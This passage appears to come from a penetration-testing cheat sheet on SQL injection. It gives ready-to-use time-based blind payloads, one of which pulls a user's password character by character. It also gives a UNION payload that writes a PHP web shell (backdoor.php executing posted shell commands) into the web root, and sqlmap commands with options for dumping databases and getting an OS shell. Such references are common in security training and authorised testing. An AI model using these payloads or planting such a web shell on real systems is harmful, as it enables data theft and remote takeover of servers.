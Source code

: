Use the union-based SQLi only when you are able to use the same communication channel to both launch the attack and gather results.

The goal is to determine the exact number of columns in the application query and to figure out which of them are displaying to the user.

Time-based SQLi:

```fundamental
' AND (SELECT 1 FROM (SELECT sleep(2)) test)-- 

' AND (SELECT 1 FROM (SELECT CASE current_user() WHEN 'root@localhost' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT 1 FROM (SELECT CASE substring(current_user(), 1, 1) WHEN 'r' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT CASE substring(password, 1, 1) WHEN '$' THEN sleep(2) ELSE sleep(0) END FROM schema.users WHERE id = 1)-- 
```

Use the time-based SQLi when you are not able to see the results.

Inject a simple web shell:

```fundamental
' UNION SELECT '', '', '', '<form method="post" action="./backdoor.php"><input name="command" type="text" value="<?php if (isset($_POST["command"])) { echo $_POST["command"]; } ?>" placeholder="Command"></form><?php if (isset($_POST["command"])) { echo "<pre>"; $results = htmlentities(shell_exec($_POST["command"]), ENT_QUOTES, 'UTF-8'); echo $results ? $results : "Cannot display raw data"; echo "</pre>"; } ?>' INTO DUMPFILE '..\\..\\htdocs\\backdoor.php'-- 
```

To successfully inject a web shell, the database user must have a write permission.

**Always make sure to properly close the surrounding code.**

### sqlmap

Inject SQL code into request parameters:

```fundamental
sqlmap -a -u somesite.com/index.php?username=test&password=test

sqlmap -a -u somesite.com/index.php --data username=test&password=test
```

| Option | Description |
| --- | --- |
| -u | Target URL |
| --data | Data string to be sent through POST |
| --cookie | HTTP Cookie header value |
| --proxy | Use a proxy to connect to the target URL |
| --level | Level of tests to perform (1-5, default: 1) |
| --risk | Risk of tests to perform (1-3, default: 1) |
| -a | Retrieve everything |
| -b | Retrieve DBMS banner |
| --dump-all | Dump all DBMS databases tables entries |
| --os-shell | Prompt for an interactive operating system shell |
| --os-pwn | Prompt for an OOB shell, Meterpreter or VNC |
| --sqlmap-shell | Prompt for an interactive sqlmap shell |
| --wizard | Simple wizard interface for beginner users |
